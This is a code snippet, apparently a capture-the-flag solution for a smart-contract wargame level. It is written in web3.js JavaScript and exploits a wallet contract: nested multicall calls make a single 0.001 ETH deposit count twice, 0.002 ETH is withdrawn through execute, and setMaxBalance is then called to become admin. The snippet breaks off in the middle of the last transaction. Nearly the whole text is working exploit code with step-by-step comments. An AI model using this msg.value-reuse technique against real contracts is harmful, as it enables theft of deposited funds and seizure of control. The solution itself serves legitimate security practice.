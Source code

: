 ```
multicallData = web3.eth.abi.encodeFunctionCall({
    name: 'multicall',
    type: 'function',
    inputs: [{
        type: 'bytes[]',
        name: 'data'
    }]
}, [[depositData]]);

nestedMulticallData = web3.eth.abi.encodeFunctionCall({
    name: 'multicall',
    type: 'function',
    inputs: [{
        type: 'bytes[]',
        name: 'data'
    }]
}, [[depositData, multicallData]]);

// This is where you deposit 0.001 ETH but the smart contract records it as 2 deposits (0.002 ETH)!
await web3.eth.sendTransaction({
    to: instance,
    from: player,
    value: "1000000000000000",
    data: nestedMulticallData
})

// Check that the smart contract recorded your deposit twice
// (await contract.balances(player)).toString()

// Withdraw all (should be 0.002) funds!
executeData = web3.eth.abi.encodeFunctionCall({
    name: 'execute',
    type: 'function',
    inputs: [{
        type: 'address',
        name: 'to'
    }, {
        type: 'uint256',
        name: 'value'
    }, {
        type: 'bytes',
        name: 'data'
    }]
}, [player, "2000000000000000", "0x"]);

await web3.eth.sendTransaction({
    to: instance,
    from: player,
    data: executeData
})

// Set yourself as new admin by calling set max balance
smbData = web3.eth.abi.encodeFunctionCall({
    name: 'setMaxBalance',
    type: 'function',
    inputs: [{
        type: 'uint256',
        name: '_maxBalance'
    }]
}, ["<insert the uint value of your address here>"]);

await web3.eth.sendTransaction({
    to: instance,
```